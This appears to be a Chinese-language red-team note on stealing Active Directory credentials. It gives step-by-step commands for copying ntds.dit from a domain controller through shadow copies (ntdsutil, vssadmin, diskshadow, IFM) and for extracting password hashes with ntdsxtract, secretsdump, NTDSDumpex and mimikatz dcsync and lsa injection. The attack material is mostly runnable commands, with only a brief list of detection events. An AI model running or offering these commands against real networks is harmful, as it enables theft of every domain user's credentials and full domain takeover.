 在通常情况下，及时拥有管理员权限，也无法读取域控制器中的`C:\Windows\NTDS\ntds.dit`文件（活跃目录始终访问这个文件，所有文件被禁止读取）。使用Windows本地卷影拷贝服务，就可以获得文件副本。

# 使用卷影拷贝服务提取ntds.dit

在活跃目录中，所有的数据都是保存在`ntds.dit`文件中。`ntds.dit`是一个二进制文件，存储位置为域控制器的`%SystemRoot%\ntds\ntds.dit`。`ntds.dit`中包含但不限于用户名、散列值、组、GPP、OU等与活跃目录相关的信息。他和SAM文件一样，是被`Windows`操作系统锁定的

## 通过ntdsuil.exe提取ntds.dit

`ntdsuil.exe`是一个活跃目录提供管理机制的命令行工具。使用`ntdsuil.exe`, 可以维护和管理活跃目录数据库、控制单个主机操作、创建应用程序目录分区、删除由未使用活跃目录安装向导成功降级的域控制器留下的元数据等。该工具默认安装在域控制器上，可以在域控制器上直接操作，也可以通过域内机器在域控制器上远程操作。`ntdsutil.exe`支持`windows server 2003 2008 2012`

```powershell
# 在域控制器上创建一个快照。该快照包含Windows中所有文件，且在复制文件时不受到Windwos锁定机制限制
ntdsutil snapshot "activate instance ntds" create quit quit
# 加载生成的快照
ntdsutil snapshot "mount {GUID}" quit quit
# 将快照复制到本机
copy <需要copy的文件路径> <要copy的文件路径> 这里路径出现$执行报错
# 卸载快照并删除
ntdsutil snapshot "unmont {GUID}" "delete {GUID}" quit quit
# 查看全部快照列表确认删除
ntdsutil snapshot "List All" quit quit
```

## 利用vssadmin提取ntds.dit

`vssadmin`是Windwos Server 2008 及 Windows 7 提供的VSS管理工具，可用于创建和删除卷影拷贝，列出卷影拷贝的信息（只能管理系统Provider创建的卷影信息）、显示已安装的所有卷影拷贝写入程序和提供程序，以及改变卷影拷贝的存储空间的大小

```powershell
# 创建一个C 盘卷影copy
vssadmin create shadow /for=c:
# 在创建的卷影拷贝中将ntds.dit复制出来
copy ……
# 删除
vssadmin delete  shadows /for=c: /quiet
```

## 利用vssown.vbs脚本提取ntds.dit

```powershell
# 启动卷影拷贝服务
cscript vssown.vbs /start
# 创建一个C盘的卷影拷贝
cscript vssown.vbs /create c
# 复制命令和vssadmin 一至

# 列出当前卷影拷贝
cscript vssown.vbs /list
# 删除卷影拷贝
cscript vssown.vbs /delete {GUID}
```

## 使用ntdsutil的IFM创建卷影拷贝

可以通过`powershell`和WMI远程执行

```powershell
# 生成IFM卷影拷贝
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
# 可以复制路径
C:\test\Active Directory\ntds.dit
C:\test\registry\SECURITY
C:\test\registry\SYSTEM
# 在目标机器删除test文件夹
remidr /s /q tets 
```

## 使用diskshadow导出ntds.dit

diskshadow可以执行系统命令，执行过程如下

- 将要执行的命令存到`txt`文件中
- `diskshadow /s <filename>`

```powershell
# 创建command.txt 内容如下
set context persistent nowriters # 设置卷影拷贝
add volume C: alias someAlias # 添加卷
create # 创建快照
expose %someAlias% k: # 分配虚拟盘符
exec "cmd.exe" /c copy k:\Windows\NTDS\ntds.dit c:\ntds.dit # 复制到C盘
delete shadows all # 删除所有快照
list shadows all # 列出系统中的卷影拷贝
reset # 重置
exit #退出
```

- 可以在非特权用户下使用
- 在执行命令时需要脚本文件支持，能够直接执行vshadow命令
- 在使用diskshadow.exed导出ntds.dit时，可以通过WMI对远程主机进行操作

- 在使用diskshadow.exed导出ntds.dit时，必须在c:\windows\system32 下

## 监控卷影拷贝服务的使用情况

- 监控卷影拷贝服务及任何涉及活跃目录数据库的可以操作行为
- 监控System Event ID 7036（卷影拷贝服务进入运行状态的标志）的可疑实例，以及创建`vssvc.exe`进程事件
- 监控创建`diskshadow.exe`及相关 子进程事件
- 监控客户端设备中的`diskshadow.exe`实例创建事件
- 通过日志监控新出现的逻辑驱动器映射事件

# 导出ntds.dit中的散列值

## Esedbexport和ntdsxtract

```sh
# 安装Esedbexport
apt-get install autoconf automake autopoint libtool pkg-config     // 安装依赖
wget https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar -xzvf libesedb-experimental-20200418.tar.gz
cd libesedb-experimental-20191220
./configure
make && make install && ldconfig

# 恢复ntds.dit
esedbexport -m tables ntds.dit # 需要用到的表也就是 datatable.X 和 link_table.X这两个表

# 安装ntdsxtract
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract/
python setup.py build && python setup.py install
# 导出散列值
python dsusers.py datatable.X link_table.X output --syshive system.hive --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout | tee result.txt
–pwdformat选项是选择以什么格式进行提取，有john(John format)、ocl(oclHashcat)、ophc(OphCrack)
# 如果遇到如下报错
ERROR: Could not find a version that satisfies the requirement Crypto.Hash (from versions: none)
ERROR: No matching distribution found for Crypto.Hash
# 执行该命令 pip2 install pycryptodome

# 导出计算机信息
python dsusers.py datatable.X computer_output --csvoutfile all_computers.csv

```

## Impacket中的secretsdump

secretsdump.py是Impacket工具包中的一个脚本，该脚本实现了多种不需要在远程主机上执行任何代理的情况下转储机密数据的技术。对于SAM和LSA Secrets（包括缓存的凭据），我们尽可能的尝试从注册表中读取，然后将hives保存在目标系统（％SYSTEMROOT％\Temp目录）中，并从那里读取其余的数据。

secretsdump.py有一个本地选项，可以解析Ntds.dit文件并从Ntds.dit中提取哈希散列值和域信息。在此之前，我们必须获取到Ntds.dit和SYSTEM这两个文件。如果条件满足，你可以执行以下命令：

```sh
下载地址：https://github.com/SecureAuthCorp/impacket
python2 setup.py install
python secretsdump.py -system /目录/system.hive -ntds /目录/ntds.dit LOCAL
```

## Windows下的工具

- `NTDSDumpex.exe -d ntds.dit -s system`

# 利用dcsync获取域散列值

## 使用mimikatz转储域散列值

`mimikatz`有一个`dcsync`功能，可以利用卷影拷贝服务直接读取`ntds.dit`文件并检索域散列值。需要注意的是，必须使用域管理员权限运行`mimikatz`才可以读取`ntds.dit`

```sh
# 1.在任意域内机器上以域管理员权限运行mimikatz
# 2.导出域内所有用户名和散列值
lsadump::dcsync /domian:hacke.testlab /all /csv
# 3.导出指定用户的散列值
lsadump::dcsync /domian:hacke.testlab /user:administrator

# 1.在域控制器中运行mimikatz，通过转储lsass.exe对散列值进行Dump操作
privilege::debug
lsadump::lsa /inject
# 如果数据太多mimikatz会显示不全，应该先开启日志功能，保存执行结果
```



















